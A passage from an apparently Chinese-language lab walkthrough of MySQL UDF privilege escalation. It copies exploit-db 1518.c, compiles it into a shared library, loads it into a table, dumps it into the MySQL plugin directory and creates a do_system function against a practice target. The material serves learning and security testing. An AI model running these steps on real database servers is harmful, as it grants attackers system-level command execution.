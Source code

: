 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaic3uS8cJxEdVO2Z0YW8IZ1y3hLVW03U56fHicjdhd98u19wASzcd0znw/640?wx_fmt=png)

命令：searchsploit 1518.c

命令：cp /usr/share/exploitdb/exploits/linux/local/1518.c /root 拷出

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniawVhVrgFVN7178erCwjxASkt0fiaQcJ0fJG3fggUoUyWxEpW0ib1Gpjiaw/640?wx_fmt=png)

接着就是利用提权 exp 的利用了 1518.c 在 kali 上进行编译生成 so 文件：

命令：gcc -g -c 1518.c

命令：gcc -g -shared -o dayu.so 1518.o -lc

-g 生成调试信息

-c 编译（二进制）

-shared：创建一个动态链接库，输入文件可以是源文件、汇编文件或者目标文件。

-o：执行命令后的文件名

-lc：-l 库 c 库名

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWnia5vw2grticdiamXSicDUQ7tc70IVazfiaFKicuSe0HKtoicaFr6BPRf9Xia9Xg/640?wx_fmt=png)

使用前面的 python 5555 服务传输到靶机

然后通过 mysql 进行 UDF 提权

进入数据库创建数据表 foo

命令：create table foo(line blob);

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaF6NboN27hVJOxmuWmJo8Zw7BCnIpGOicvgjJ9wO4FZa7ia0r8hd2GIQA/640?wx_fmt=png)

插入数据：insert into foo values(load_file('/tmp/dayu.so'));

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaFbHUju1eLa1fHPE8yDt6NmeS8Dz0LfLLIPlWTzeqice2B66ibwUvLeJQ/640?wx_fmt=png)

Foo 表成功插入二进制数据，然后利用 dumpfile 函数把文件导出

outfile 多行导出，dumpfile 一行导出

outfile 会有特殊的转换，而 dumpfile 是原数据导出

新建存储函数

命令：select * from foo into dumpfile '/usr/lib/mysql/plugin/dayu.so';

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaNkvHZnpw6oGYhyDywnJQ2yxg6TB2Rf5IvMicz244Q5IFsxxbUlmPqgw/640?wx_fmt=png)

创建自定义函数 do_system 类型是 integer，别名（soname）文件名字

然后查询函数是否创建成功

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniawaUGzBBoia74qCFZkibbBGMxJwAI4ics0elMXIwHXRjCpfw2cGT4oiaUCg/640?wx_fmt=png)

命令：create function do_system returns integer soname 'dayu.so';
